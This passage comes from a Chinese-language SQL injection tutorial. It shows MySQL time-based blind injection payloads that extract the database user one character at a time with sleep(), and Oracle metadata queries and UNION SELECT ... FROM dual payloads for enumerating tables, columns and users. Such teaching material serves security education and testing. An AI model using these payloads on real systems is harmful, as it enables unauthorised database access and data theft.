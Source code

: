 + 截取字符串第一个字符，并转换为 ASCII 码
  `AND if(hex(mid(user(), 1, 1)) = 1, sleep(3), 1)`
  `AND if(hex(mid(user(), 1, 1)) = 2, sleep(3), 1)`
  ……
  不断更换 ASCII 码直到出现延时 3 秒就可以猜测出第一个字符。

+ 递归截取字符串每一个字符，分别于 ASCII 码比较
  `AND if(hex(mid(user(), L, 1)) = N, sleep(3), 1)`
  注：L 的位置代表字符串的第几个字符，N 的位置代表 ASCII 码。



不仅在 MySQL 中存在延时函数，在 SQL Server、Oracle 等数据库中也都存在类似功能的函数，如 SQL Server 的 waitfor delay、Oracle 中的 DBMS_LOCK.SLEEP 等函数。



---

### Oracle

#### 1.获取元数据

Oracle 也支持查询元数据，下面是 Oracle 注入常用的元数据视图：


```sql
 user_tablespaces 视图，查看表空间
`SELECT tablespace_name FROM user_tablespaces`

 user_tables 视图，查看当前用户的所有表
`SELECT table_name FROM user_tables WHERE rownum = 1`

 user_tab_columns 视图，查看当前用户的所有列，如查询 user 表的所有列：
`SELECT column_name FROM user_tab_columns WHERE table_name = 'users'`

 all_users 视图，查看 ORacle 数据库的所有用户
`SELECT username FROM all_users`

 user_objects 视图，查看当前用户的所有对象 (表名称、约束、索引)
`SELECT object_name FROM user_objects`
```



#### 2.UNION 查询

Oracle 与 MySQL 一样不支持多语句执行，不像 SQL Server 那样可以用分号隔开从而注入多条 SQL 语句。

+ 获取列的总数
  获取列总数方法与前面两种数据库类似，依然可以使用 ORDER BY 子句来完成。
  
  另一种方法是利用 UNION 关键字来确定，但是 Oracle 规定，每次查询时后面必须跟表的名称，否则查询将不成立。
  
  在 Oracle 中可以使用：
  `UNION SELECT null, null, null …… FROM dual`
  这里的 dual 是 Oracle 中的虚拟表，在不知道数据库中存在哪些表的情况下，可以使用此表作为查询表。
  
  然后获取非数字类型列，即可以显示出信息的列：
  `UNION SELECT 'null', null, null, …… FROM dual`
  `UNION SELECT null, 'null', null, …… FROM dual`
  